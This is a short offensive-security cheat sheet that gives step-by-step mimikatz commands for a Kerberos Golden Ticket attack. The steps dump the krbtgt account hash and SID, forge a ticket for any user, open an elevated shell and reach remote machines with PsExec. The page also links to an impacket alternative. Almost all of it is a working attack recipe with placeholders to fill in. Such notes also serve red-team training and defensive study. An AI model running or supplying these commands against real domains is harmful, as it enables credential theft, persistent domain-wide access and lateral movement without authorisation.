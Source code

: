 # Kerberos: Golden Ticket

#### 🎫 Golden ticket (`mimikatz`)

1. Dump the hash and security identifier (SID) of the Kerberos Ticket Granting Ticket (**krbtgt**) service account:

```
mimikatz # lsadump::lsa /inject /name:krbtgt
```

1. Create a golden ticket:

```
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<SID> /krbtgt:<KRBTGT_HASH> [/id:500] [/ptt]
```

1. Open a new command prompt with elevated privileges and access to all machines with:

```
mimikatz # misc::cmd
```

```powershell
psexec.exe \\$REMOTE_MACHINE_HOSTNAME cmd.exe
```

⚠️ OverPass the Hash with `PsExec` when using hostname, otherwise (IP) NTLM authentication would be blocked.

➡️ [Golden Ticket - Mimikatz alternative (impacket)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#golden-ticket)
